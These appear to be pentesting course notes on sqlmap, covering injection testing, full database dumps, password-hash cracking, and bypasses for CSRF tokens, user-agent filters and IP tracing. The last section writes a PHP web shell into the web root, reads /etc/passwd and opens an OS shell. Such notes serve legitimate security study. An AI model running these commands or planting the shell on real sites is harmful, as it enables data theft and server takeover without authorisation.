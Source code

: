 ## **Basic commands**
1. Basic usage: `python sqlmap.py -u 'http://inlanefreight.htb/page.php?id=5'`
2. Go to DevTools > Copy as cURL > paste to terminal > change curl to sqlmap
3. Post request: `sqlmap 'http://www.example.com/' --data 'uid=1&name=test'` uid and name will be tested for SQLi vulnerability.
4. Post request - focus on uid parametr `sqlmap 'http://www.example.com/' --data 'uid=1*&name=test'`
5. Full HTTP Requests: 
    1. Copy > Copy Request Headers > paste into a req.txt file
    2. To run SQLMap with an HTTP request file, we use the -r flag: `sqlmap -r req.txt`
6. To specify an alternative HTTP method, other than GET and POST (e.g., PUT), we can utilize the option --method: `sqlmap -u www.target.com --data='id=1' --method PUT`
7. Use options `--batch --dump` to automatically dump all data.
8. Use crawl option to detemine how deep to find: `--crawl=2`
9. The -t option stores the whole traffic content to an output file: `sqlmap -u "http://www.target.com/vuln.php?id=1" --batch -t /tmp/traffic.txt`
10. `-v` option, which raises the verbosity level of the console output
11. Utilize the `--proxy` option to redirect the whole traffic through a (MiTM) proxy (e.g., Burp)
12. The option --level (1-5, default 1) extends both vectors and boundaries being used, based on their expectancy of success (i.e., the lower the expectancy, the higher the level).
13. The option --risk (1-3, default 1) extends the used vector set based on their risk of causing problems at the target side (i.e., risk of database entry loss or denial-of-service).
14. Prefix and sufix: `--prefix= --sufix=`
15. Count numbers of columns and add to command: `--union-cols=10`
## **Database Enumeration**
1. Basic DB Data EnumerationP: `sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba`
2. Table Enumeration: `sqlmap -u "http://www.example.com/?id=1" --tables -D testdb`
3. After spotting the table name of interest, retrieval of its content can be done by using the --dump option and specifying the table name with -T users: `sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb`
4. Apart from default CSV, we can specify the output format with the option `--dump-format` to HTML or SQLite
5. Table/Row Enumeration: `sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb -C name,surname`
6. To narrow down the rows based on their ordinal number(s) inside the table, we can specify the rows with the --start and --stop options (e.g., start from 2nd up to 3rd entry): `sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --start=2 --stop=3`
7. Conditional Enumeration: `sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --where="name LIKE 'f%'"`
### **Full DB Enumeration**
Instead of retrieving content per single-table basis, we can retrieve all tables inside the database of interest by skipping the usage of option -T altogether (e.g. --dump -D testdb). By simply using the switch --dump without specifying a table with -T, all of the current database content will be retrieved. As for the --dump-all switch, all the content from all the databases will be retrieved.

In such cases, a user is also advised to include the switch --exclude-sysdbs (e.g. --dump-all --exclude-sysdbs), which will instruct SQLMap to skip the retrieval of content from system databases, as it is usually of little interest for pentesters.
## **Advanced Database Enumeration**
1. DB Schema Enumeration: `sqlmap -u "http://www.example.com/?id=1" --schema`
2. Searching for Data: `sqlmap -u "http://www.example.com/?id=1" --search -T user`
3. To search for all column names based on a specific keyword (e.g. pass): `sqlmap -u "http://www.example.com/?id=1" --search -C pass`
4. Password Enumeration and Cracking: `sqlmap -u "http://www.example.com/?id=1" --dump -D master -T users`
5. DB Users Password Enumeration and Cracking: `sqlmap -u "http://www.example.com/?id=1" --passwords --batch`
**TIP: The '--all' switch in combination with the '--batch' switch, will automa(g)ically do the whole enumeration process on the target itself, and provide the entire enumeration details.**
## **Bypassing Web Application Protections**
1. Anti-CSRF Token Bypass: `sqlmap -u "http://www.example.com/" --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"`
2. Unique Value Bypass: `sqlmap -u "http://www.example.com/?id=1&rp=29125" --randomize=rp --batch -v 5 | grep URI`
3. Calculated Parameter Bypass: `sqlmap -u "http://www.example.com/?id=1&h=c4ca4238a0b923820dcc509a6f75849b" --eval="import hashlib; h=hashlib.md5(id).hexdigest()" --batch -v 5 | grep URI`
4. IP Address Concealing: A proxy can be set with the option --proxy (e.g. --proxy="socks4://177.39.187.70:33283"), where we should add a working proxy.
5. User-agent Blacklisting Bypass: `--random-agent`
6. Tamper Scripts
## **OS Exploitation**
1. Checking for DBA Privileges: `sqlmap -u "http://www.example.com/case1.php?id=1" --is-dba`
2. Reading Local Files: `sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"`
3. Writing Local Files
    1. `echo '<?php system($_GET["cmd"]); ?>' > shell.php`
    2. `sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"`
    3. `curl http://www.example.com/shell.php?cmd=ls+-la`
4. OS Command Execution:
    1. `sqlmap -u "http://www.example.com/?id=1" --os-shell`
    2. Error-based SQL Injection: `sqlmap -u "http://www.example.com/?id=1" --os-shell --technique=E`